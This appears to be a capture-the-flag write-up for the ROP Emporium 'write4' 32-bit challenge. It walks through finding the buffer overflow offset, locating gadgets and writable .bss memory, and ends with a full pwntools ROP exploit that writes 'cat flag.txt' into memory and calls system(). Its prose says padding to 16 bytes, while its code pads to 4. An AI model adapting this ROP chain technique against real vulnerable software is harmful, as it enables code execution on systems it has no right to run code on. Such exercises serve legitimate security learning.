 The goal of the challenge is to master the writing in memory with ropchain. 
In this case we want to write the string '*cat flag.txt*' somewhere in memory. Then perform a system with this string as argument.
To do that we some ingredients:
- writeable memory area
- gadgets to write in memory
- gadgets to execute system()

As always running checksec we have:
```shell
[marco@marco-pc Downloads]$ checksec --file="write432"
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   81 Symbols     No	0		3	write432
```

Before build our ropchain let's see now many bytes there are until eip:
```gdb
[marco@marco-pc Downloads]$ gdb-pwndbg write432
Reading symbols from write432...
(No debugging symbols found in write432)
pwndbg: loaded 181 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
pwndbg> cyclic 50
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama
pwndbg> r
Starting program: /home/marco/Downloads/write432 
write4 by ROP Emporium
32bits

Go ahead and give me the string already!
> aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama

Program received signal SIGSEGV, Segmentation fault.
0x6161616c in ?? ()
...
 EIP  0x6161616c ('laaa')
...
Program received signal SIGSEGV (fault address 0x6161616c)
pwndbg> cyclic -l 'laaa'
44
```

With readelf we can explore memory sections marked as readable and their dimensions:
```shell
[marco@marco-pc Downloads]$ readelf -S write432
There are 31 section headers, starting at offset 0x196c:

Section Headers:
  [Nr] Name              Type            Addr     Off    Size   ES Flg Lk Inf Al
  [ 0]                   NULL            00000000 000000 000000 00      0   0  0
  [ 1] .interp           PROGBITS        08048154 000154 000013 00   A  0   0  1
  [ 2] .note.ABI-tag     NOTE            08048168 000168 000020 00   A  0   0  4
  [ 3] .note.gnu.build-i NOTE            08048188 000188 000024 00   A  0   0  4
  [ 4] .gnu.hash         GNU_HASH        080481ac 0001ac 000030 04   A  5   0  4
  [ 5] .dynsym           DYNSYM          080481dc 0001dc 0000d0 10   A  6   1  4
  [ 6] .dynstr           STRTAB          080482ac 0002ac 000081 00   A  0   0  1
  [ 7] .gnu.version      VERSYM          0804832e 00032e 00001a 02   A  5   0  2
  [ 8] .gnu.version_r    VERNEED         08048348 000348 000020 00   A  6   1  4
  [ 9] .rel.dyn          REL             08048368 000368 000020 08   A  5   0  4
  [10] .rel.plt          REL             08048388 000388 000038 08  AI  5  24  4
  [11] .init             PROGBITS        080483c0 0003c0 000023 00  AX  0   0  4
  [12] .plt              PROGBITS        080483f0 0003f0 000080 04  AX  0   0 16
  [13] .plt.got          PROGBITS        08048470 000470 000008 00  AX  0   0  8
  [14] .text             PROGBITS        08048480 000480 000262 00  AX  0   0 16
  [15] .fini             PROGBITS        080486e4 0006e4 000014 00  AX  0   0  4
  [16] .rodata           PROGBITS        080486f8 0006f8 000064 00   A  0   0  4
  [17] .eh_frame_hdr     PROGBITS        0804875c 00075c 00003c 00   A  0   0  4
  [18] .eh_frame         PROGBITS        08048798 000798 00010c 00   A  0   0  4
  [19] .init_array       INIT_ARRAY      08049f08 000f08 000004 00  WA  0   0  4
  [20] .fini_array       FINI_ARRAY      08049f0c 000f0c 000004 00  WA  0   0  4
  [21] .jcr              PROGBITS        08049f10 000f10 000004 00  WA  0   0  4
  [22] .dynamic          DYNAMIC         08049f14 000f14 0000e8 08  WA  6   0  4
  [23] .got              PROGBITS        08049ffc 000ffc 000004 04  WA  0   0  4
  [24] .got.plt          PROGBITS        0804a000 001000 000028 04  WA  0   0  4
  [25] .data             PROGBITS        0804a028 001028 000008 00  WA  0   0  4
  [26] .bss              NOBITS          0804a040 001030 00002c 00  WA  0   0 32
  [27] .comment          PROGBITS        00000000 001030 000034 01  MS  0   0  1
  [28] .shstrtab         STRTAB          00000000 001861 00010a 00      0   0  1
  [29] .symtab           SYMTAB          00000000 001064 000510 10     30  50  4
  [30] .strtab           STRTAB          00000000 001574 0002ed 00      0   0  1
Key to Flags:
  W (write), A (alloc), X (execute), M (merge), S (strings), I (info),
  L (link order), O (extra OS processing required), G (group), T (TLS),
  C (compressed), x (unknown), o (OS specific), E (exclude),
  p (processor specific)
```

The bss section seems to be perfect!
Now we need some gadgets to write in memory.
Something like mov `DWORD PTR [reg], reg; ret`.
In this case the program give us usefulGadget:
```gdb
[marco@marco-pc Downloads]$ gdb-pwndbg write432
Reading symbols from write432...
(No debugging symbols found in write432)
pwndbg: loaded 181 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
pwndbg> disassemble usefulGadgets
Dump of assembler code for function usefulGadgets:
   0x08048670 <+0>:     mov    DWORD PTR [edi],ebp
   0x08048672 <+2>:     ret    
   0x08048673 <+3>:     xchg   ax,ax
   0x08048675 <+5>:     xchg   ax,ax
   0x08048677 <+7>:     xchg   ax,ax
   0x08048679 <+9>:     xchg   ax,ax
   0x0804867b <+11>:    xchg   ax,ax
   0x0804867d <+13>:    xchg   ax,ax
   0x0804867f <+15>:    nop
End of assembler dump.
```

Usually we need to find ourself.
Another gadget we need is a pop instruction for load values into registers (in this case: bss address in edi, string ebp):
```shell
[marco@marco-pc Downloads]$ cat gadgets | grep pop
0x080486ef : adc ebx, dword ptr [ecx] ; add byte ptr [eax], al ; add esp, 8 ; pop ebx ; ret
0x080483dc : add byte ptr [eax], al ; add esp, 8 ; pop ebx ; ret
0x080485ed : add byte ptr [ebx - 0x723603b3], cl ; popal ; cld ; ret
0x080486d5 : add esp, 0xc ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080483de : add esp, 8 ; pop ebx ; ret
0x080486d4 : jecxz 0x8048661 ; les ecx, ptr [ebx + ebx*2] ; pop esi ; pop edi ; pop ebp ; ret
0x080486d3 : jne 0x80486c1 ; add esp, 0xc ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080483df : les ecx, ptr [eax] ; pop ebx ; ret
0x080486d6 : les ecx, ptr [ebx + ebx*2] ; pop esi ; pop edi ; pop ebp ; ret
0x080486d7 : or al, 0x5b ; pop esi ; pop edi ; pop ebp ; ret
0x080486db : pop ebp ; ret
0x080486d8 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080483e1 : pop ebx ; ret
0x080486da : pop edi ; pop ebp ; ret
0x080486d9 : pop esi ; pop edi ; pop ebp ; ret
0x080485f3 : popal ; cld ; ret
```
'*pop edi; pop ebp*' fit perfectly for our purpose.
To execute the write i wrote a dedicated function, which basically pad the string with null bytes until the length is a multiple of 16.
Then cut the string in group by 4. And finally it writes 4 bytes at a time in memory adding 4 to the address for each write:
```python
def write_string_bss(mov_gadget, pop_gadget, bss_address, string):
    while len(string) % 4 != 0:
        string += "\x00"

    splitted_string = [string[i:i + 4] for i in range(0, len(string), 4)]
    payload = "".encode()
    for i in range(len(splitted_string)):
        payload += p32(pop_gadget)
        payload += p32(bss_address + (i * 4))
        payload += splitted_string[i].encode()
        payload += p32(mov_gadget)
    return payload
```

It's almost done. We just need a system to execute the syscall like in split challenge:
```
[marco@marco-pc Downloads]$ gdb-pwndbg write432 
Reading symbols from write432...
(No debugging symbols found in write432)
pwndbg: loaded 181 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
pwndbg> p system
$1 = {<text variable, no debug info>} 0x8048430 <system@plt>
```

Final exploit:
```python
from pwn import *

string = "cat flag.txt"
system = 0x8048430
usefulGadgets =  0x08048670 # mov DWORD PTR [edi], ebp
pop_gadget = 0x080486da; #pop edi ; pop ebp ; ret
bss_address = 0x0804a040

def write_string_bss(mov_gadget, pop_gadget, bss_address, string):
    while len(string) % 4 != 0:
        string += "\x00"

    splitted_string = [string[i:i + 4] for i in range(0, len(string), 4)]
    payload = "".encode()
    for i in range(len(splitted_string)):
        payload += p32(pop_gadget)
        payload += p32(bss_address + (i * 4))
        payload += splitted_string[i].encode()
        payload += p32(mov_gadget)
    return payload


exploit = ("A"*44).encode()
exploit += write_string_bss(usefulGadgets, pop_gadget, bss_address, string)
exploit += p32(system)
exploit += ("JUNK").encode()
exploit += p32(bss_address)

p = process('./write432')
p.recvuntil('>')
p.sendline(exploit)
p.interactive()
print(p.recvall().decode())
```
